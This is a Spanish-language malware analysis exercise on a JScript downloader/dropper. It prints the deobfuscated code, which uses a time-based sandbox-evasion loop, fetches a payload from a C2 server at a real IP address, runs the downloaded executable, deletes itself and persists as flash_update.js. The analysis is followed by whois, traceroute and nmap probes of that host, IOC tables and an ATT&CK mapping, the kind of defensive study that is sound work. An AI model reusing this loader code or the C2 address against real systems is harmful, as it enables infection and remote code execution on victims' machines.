// ALGORTIMO DE HASHING - IDENTIFICADOR UNICO
for (pre_information=0; pre_information<pre_overheard.length; pre_information++){
hash=((hash<<5) - hash + pre_overheard.charCodeAt(pre_information)) & 0xffffffff;
}
// BUCLE PRINCIPAL
while(true){
tone = tone + 1
if ( tone == 200000000 ) {
while (true) {
try{
http.setOption(3,"MSXML");
http.open(
"GET",
tempPath + "&" + Math.floor(Math.random() * 200+1) + "&uid="+Math.abs(hash),
false);
http.send();
if ( http.status == 100+50+50){
if ( fso.FileExists(targetPath) ) {
fso.DeleteFile(targetPath);
}
stream.Open();
stream.Type=1;
stream.Write(http.responseBody);
stream.Position=0
stream.SaveToFile(targetPath);
stream.Close();
tmpFile = fso.GetFile(targetPath).OpenAsTextStream(1)
if (fso.FileExists(targetPath) && tmpFile.ReadLine().substring(0,2) == "MZ") {
executed=true;
shellApp.ShellExecute(targetPath,"","","open1")
if (fso.FileExists(WScriptObj.ScriptFullName)) {
fso.DeleteFile(WScriptObj.ScriptFullName)
}
WScriptObj.Sleep(20*200);
if(fso.FileExists(targetPath)) {
fso.DeleteFile(targetPath);
}
tmpFile.Close();
break;
}
tmpFile.Close();
}
}catch(e){
}
if(executed==true){
break;
}
WScriptObj.Sleep(10000*8);
}
break;
}
}
pre_experienceInformation1=0.619;
pre_collect2=0.826;
folder=0.82;
pre_numbers8=0.266;
pre_sent=318;
pre_access=170;
pre_companies=628;
pre_law=100;
pre_PayPal10=164;
pre_PayPal1=0.73;
pre_warningInformation=0.277;
pre_applicable=363;
pre_order=0.951;
pre_receive=412;
pre_information=542;
pre_reason3=759;
pre_conversations8=126;
pre_receive=884;
pre_data6=0.278;
Basándonos en el código que hemos desofuscado y reconstruido podemos determinar que este script es un Downloader/Dropper (Descargador). Su único propósito es servir de puerta de entrada para infectar el equipo con otro virus más peligroso.
The document is corrupted and cannot be opened. Usa Ingeniería Social --> Engaño.if (scriptPath !=autor && hasRun == false){
hasRun=true;
fso.DeleteFile(scriptPath); // Se borra a sí mismo
WScriptObj.echo("he document is corrupted an\d cannot be opened")
WScriptObj.Sleep(5000);
}
donde:
objetivo (scriptPath != autor), y(hasRun == false).Comportamiento:
flash_update.js.Objetivo: Asegurarse de que el virus se ejecute automáticamente cada vez que la víctima encienda el ordenador. Usa el nombre Flash Update para parecer legítimo si alguien revisa esa carpeta.
for (pre_information=0; pre_information<pre_overheard.length; pre_information++){
hash=((hash<<5) - hash + pre_overheard.charCodeAt(pre_information)) & 0xffffffff;
}
Comportamiento: Genera un identificador único (uid) basado en un hash de la ruta donde está instalado el archivo.
Objetivo: Identificar a cada víctima de forma única ante el servidor del atacante. Así se sabe cuántas máquinas se han infectado y si una petición viene de una máquina nueva o repetida.
Bucle infinito exterior:
while (true) {
tone = tone + 1;
...
}
donde:
Cuando tone == 200000000
if (tone == 200000000) {
while (true) {
...
}
break;
}
donde:
tone llega a 200000000, entra en otro bucle infinito interno.break; y sale del bucle exterior.Comportamiento: Ejecuta un bucle while que cuenta hasta 200.000.000 antes de hacer nada malicioso.
Objetivo: Engañar a los sistemas de análisis automático (Sandboxes). Muchos antivirus ejecutan un archivo sospechoso durante unos segundos en un entorno aislado para ver qué hace. Como este script se pasa los primeros sin hacer NADA, el antivirus piensa que es inofensivo y lo puede dejar pasar. O si lo ejecutamos en plataformas como ANY.RUN, dado que la versión gratuita tiene un límite de tiempo para el análisis, podría provocar que el análisis finalice antes de que se active el código malicioso, debido al bucle de retardo.
Dentro del while (true) interno:
try {
http.setOption(3, "MSXML");
http.open("GET", tempPath + "&" + Math.floor(Math.random()*200+1) + "&uid=" + Math.abs(hash), false);
http.send();
donde:
HTTP.GET a una URL construida a partir de:
tempPath que realmente es una URL base,uid único basado en hash que vimos en el apartado de Fingerprinting.Comportamiento: Realiza una petición web (HTTP GET) a la IP 217.28.218.217.
Objetivo: Contactar con el atacante y descargar la carga dañina (payload).
Si la respuesta es “correcta” (código 200):
if (http.status == 100 + 50 + 50) { // 200
if (fso.FileExists(targetPath)) fso.DeleteFile(targetPath);
stream.Open();
stream.Type = 1;
stream.Write(http.responseBody);
stream.Position = 0;
stream.SaveToFile(targetPath);
stream.Close();
tmpFile = fso.GetFile(targetPath).OpenAsTextStream(1);
donde:
200.targetPath, lo borra.responseBody).targetPath.tmpFile).Comprueba si el fichero parece un ejecutable PE:
if (fso.FileExists(targetPath) &&
tmpFile.ReadLine().substring(0, 2) == "MZ") {
executed = true;
shellApp.ShellExecute(targetPath, "", "", "open1");
...
}
donde:
MZ.MZ es la firma típica de un ejecutable de Windows (formato PE).executed = true.ShellExecute. Lo ejecuta.Comportamiento:
%TEMP%) con un nombre numérico aleatorio.MZ: Lee los dos primeros caracteres del archivo descargado. Si son MZ, confirma que es un ejecutable de Windows válido.Objetivo: Asegurarse de que la descarga no falló ni fue interceptada por un firewall antes de intentar ejecutarla.
Borrado del propio script y del fichero descargado:
if (fso.FileExists(WScriptObj.ScriptFullName))
fso.DeleteFile(WScriptObj.ScriptFullName);
WScriptObj.Sleep(20 * 200);
if (fso.FileExists(targetPath))
fso.DeleteFile(targetPath);
tmpFile.Close();
break;
donde:
ScriptFullName).Sleep).targetPath), si existe.tmpFile y hace break; para salir del bucle interno.Comportamiento:
ShellExecute para arrancar el .exe descargado..js original y el .exe descargado para eliminar evidencias.Resultado final: El script de JavaScript termina su trabajo y deja el control al nuevo ejecutable descargado que podría ser, un Ransomware, un troyano bancario o un software de espionaje.
} catch (e) {}
if (executed == true) {
break;
}
WScriptObj.Sleep(10000 * 8);
donde:
executed == true, sale del bucle interno.Sleep(80000)),while(true) interno.Investigamos un poco sobre esa IP:
whois 217.28.218.217
% This is the RIPE Database query service.
% The objects are in RPSL format.
%
% The RIPE Database is subject to Terms and Conditions.
% See https://docs.db.ripe.net/terms-conditions.html
% Note: this output has been filtered.
% To receive output for a database update, use the "-B" flag.
% Information related to '217.28.218.192 - 217.28.218.223'
% Abuse contact for '217.28.218.192 - 217.28.218.223' is 'abuse@domru.ru'
inetnum: 217.28.218.192 - 217.28.218.223
netname: ARFU-NET
country: RU
admin-c: SM3227-RIPE
tech-c: SK4292-RIPE
status: ASSIGNED PA
mnt-by: JSC-TELENET-MNT
created: 2017-07-05T07:15:06Z
last-modified: 2017-07-13T10:26:04Z
source: RIPE
person: Tech Admin Telenet
address: 14 build 3,
address: Mazhorov Side Str.,
address: Moscow, Russia, 105023
phone: +7 495 7857100
fax-no: +7 495 7772333
nic-hdl: SK4292-RIPE
mnt-by: JSC-TELENET-MNT
created: 2008-10-10T14:20:03Z
last-modified: 2018-11-27T12:11:36Z
source: RIPE # Filtered
person: Sergey Matral
address: 14 build 3, Mazhorov Side Str., Moscow, Russia, 107023
phone: +7 495 7254112
nic-hdl: SM3227-RIPE
mnt-by: ru-okbprogress-1-mnt
created: 2002-08-26T10:23:12Z
last-modified: 2018-09-25T16:16:30Z
source: RIPE # Filtered
% Information related to '217.28.216.0/22AS29053'
route: 217.28.216.0/22
descr: Routing Block#2 Telenet (Moscow)
origin: AS29053
mnt-by: JSC-TELENET-MNT
created: 2007-11-20T13:07:11Z
last-modified: 2007-11-20T13:07:11Z
source: RIPE
% Information related to '217.28.216.0/22AS31363'
route: 217.28.216.0/22
descr: JSC "ER-Telecom Holding" Moscow branch
descr: Moscow, Russia
origin: AS31363
mnt-by: RAID-MNT
created: 2022-11-24T05:32:24Z
last-modified: 2022-11-24T05:32:24Z
source: RIPE
% This query was served by the RIPE Database Query Service version 1.120 (BUSA)
donde:
abuse@domru.ruResumiendo: La IP 217.28.218.217 pertenece al rango 217.28.218.192–223 (netname ARFU-NET), registrado en Rusia y gestionado por el ISP JSC 'ER-Telecom Holding' (Moscú).
Probamos con VirusTotal a ver qué nos cuenta de esa IP:

Probamos con traceroute:
traceroute 217.28.218.217
traceroute to 217.28.218.217 (217.28.218.217), 30 hops max, 60 byte packets
1 _gateway (10.0.2.2) 0.678 ms 0.614 ms 0.589 ms
2 192.168.144.1 (192.168.144.1) 5.019 ms 4.995 ms 4.967 ms
3 * * *
4 * * *
5 10.255.180.78 (10.255.180.78) 8.534 ms 8.512 ms 8.487 ms
6 10.34.205.1 (10.34.205.1) 22.311 ms 15.284 ms 15.257 ms
7 10.34.206.57 (10.34.206.57) 17.951 ms 10.34.206.61 (10.34.206.61) 14.618 ms 14.589 ms
8 193.251.247.13 (193.251.247.13) 18.637 ms 18.624 ms 18.613 ms
9 193.251.150.76 (193.251.150.76) 18.602 ms 193.251.129.16 (193.251.129.16) 18.589 ms 193.251.150.76 (193.251.150.76) 20.323 ms
10 prs-bb2-link.ip.twelve99.net (62.115.123.220) 57.810 ms 193.251.150.76 (193.251.150.76) 20.295 ms prs-bb2-link.ip.twelve99.net (62.115.123.220) 82.849 ms
11 ffm-bb2-link.ip.twelve99.net (62.115.122.139) 46.710 ms 78.701 ms 78.665 ms
12 ffm-bb2-link.ip.twelve99.net (62.115.122.139) 78.649 ms sto-bb2-link.ip.twelve99.net (62.115.138.104) 78.618 ms 78.603 ms
13 mow-b5-link.ip.twelve99.net (62.115.141.23) 89.340 ms sto-bb2-link.ip.twelve99.net (62.115.138.104) 77.015 ms mow-b5-link.ip.twelve99.net (62.115.141.23) 88.528 ms
14 ertelekom-ic-393966.ip.twelve99-cust.net (213.248.90.211) 88.482 ms mow-b5-link.ip.twelve99.net (62.115.141.23) 88.455 ms 88.430 ms
15 ertelekom-ic-393965.ip.twelve99-cust.net (213.248.104.255) 90.609 ms 90.506 ms 89.663 ms
16 176x213x132x18.static-business.msk.ertelecom.ru (176.213.132.18) 85.236 ms * 176x213x132x30.static-business.msk.ertelecom.ru (176.213.132.30) 86.795 ms
17 * * *
18 * * *
19 * * *
20 * * *
21 * * *
donde:
Esa IP no responde a traceroute ni a ping. El hecho de que muera después puede deberse a:
Hacemos un escaneo ligero con nmap:
La opción -Pn indica que no confíe en ping y pruebe directamente los puertos.
nmap -Pn -p 80,443,8080 217.28.218.217
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-07 19:44 CET
Nmap scan report for 217x28x218x217.static-business.msk.ertelecom.ru (217.28.218.217)
Host is up.
PORT STATE SERVICE
80/tcp filtered http
443/tcp filtered https
8080/tcp filtered http-proxy
Nmap done: 1 IP address (1 host up) scanned in 3.03 seconds
usuario@usuario-1-2:~/Escritorio/M3-Ejercicio6$
donde:
Nmap scan report for 217x28x218x217.static-business.msk.ertelecom.ru:
Conclusión sobre la ip de este ejercicio:
Hay indicios de que la IP 217.28.218.217 corresponde a un host en una red activa (no es una IP huérfana), pero los puertos típicos de HTTP/HTTPS (80, 443, 8080) están filtrados por un firewall. No se puede determinar si el servicio C2 sigue operativo en esos puertos, o si solo acepta conexiones en otras condiciones (otros puertos, reglas específicas, horario, listas blancas, etc.).
Resumen de IOCs de Red:
| Tipo | Valor | Contexto / Descripción |
|---|---|---|
| IP C2 | 217.28.218.217 | Dirección IP del Servidor de Comando y Control. |
| Alojamiento de la IP | ISP ruso (JSC "ER-Telecom Holding", Moscú) | |
| Contacto de abuso registrado | abuse@domru.ru | |
| URL Completa | https://217.28.218.217/NOPE/q64.php | Ruta específica donde se aloja el payload malicioso. |
| Parámetro URL | ?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt | Cadena de consulta hardcodeada. Muy útil para reglas de detección en Proxy/Firewall. |
| Protocolo | HTTPS (Port 443) | Usa SSL para ocultar el tráfico (Msxml2.ServerXMLHTTP). |
Rastros físicos que deja el malware en el disco duro de la víctima.
| Tipo | Valor / Patrón | Ubicación | Descripción |
|---|---|---|---|
| Nombre de Archivo | flash_update.js | Carpeta de Inicio (Startup) | Nombre que usa para la persistencia. Intenta hacerse pasar por una actualización de Adobe Flash. |
| Patrón de Archivo | "\d+.exe (Ej: 45.exe, 102.exe)" | %TEMP% | El payload descargado se guarda con un nombre numérico aleatorio en la carpeta temporal. |
| Firma Mágica | MZ (0x4D 0x5A) | Cabecera del archivo | El script busca explícitamente estos bytes al inicio del archivo descargado para confirmar que es un ejecutable. |
Los IoC de Contenido (o String IoCs) son cadenas de texto específicas dentro del cuerpo del malware que sirven como "huellas dactilares".
| Cadena (String) | Descripción / Contexto |
|---|---|
| 217.28.218.217 | La IP del servidor C2. |
| /NOPE/q64.php | La ruta del recurso en el servidor. |
| gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt | El IoC más fuerte. Es el valor del parámetro ?add=. Parece una clave de campaña o token único. |
| &uid= | El parámetro que usa para enviar el identificador de la víctima. |
| "The document is corrupted and cannot be opened" | El mensaje de error falso. |
| Msxml2.ServerXMLHTTP | Objeto usado para la descarga silenciosa. |
| ADODB.Stream | Objeto usado para escribir el archivo binario en disco. |
| Scripting.FileSystemObject | Objeto para manipular archivos (borrarse a sí mismo). |
| WScript.Shell | Objeto para ejecutar comandos y leer variables de entorno. |
| MZ | "La ""firma mágica"" que busca el script para validar si descargó un ejecutable (.exe)." |
El código intenta ejecutar código malicioso. Técnica: Command and Scripting Interpreter: JavaScript (T1059.007)
El código intenta mantener su posición en el sistema tras un reinicio. Técnica: Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder (T1547.001)
El código intenta evitar ser detectado.
Técnica: Virtualization/Sandbox Evasion: Time Based Evasion (T1497.003)
Técnica: Obfuscated Files or Information (T1027)
Técnica: Indicator Removal on Host: File Deletion (T1070.004)
El script intenta borrarse a sí mismo (ScriptFullName) y al ejecutable descargado después de lanzarlo para no dejar pistas forenses.
Técnica: Masquerading (T1036)
El código intenta comunicarse con sistemas bajo su control. Técnica: Application Layer Protocol: Web Protocols (T1071.001)
Cómo obtiene el código sus herramientas.
| ID Técnica | Nombre de la Técnica | Evidencia Observada en el código |
|---|---|---|
| T1059.007 | Interpreter: JavaScript | Ejecución vía WScript/ActiveX. |
| T1547.001 | Startup Folder | Copia a Shell.NameSpace(7) como flash_update.js. |
| T1497.003 | Time Based Evasion | Bucle while masivo (Delay execution). |
| T1027 | Obfuscated Files | Strings rotos y Unicode (\u00XX). |
| T1070.004 | File Deletion | FSO.DeleteFile() post-ejecución. |
| T1071.001 | Application Layer Protocol: Web Protocols | Uso del objeto Msxml2.ServerXMLHTTP |
| T1105 | Ingress Tool Transfer | Descarga de payload .exe desde IP remota. |
| T1036 | Masquerading | "Fake error message + nombre falso ""Flash Update""." |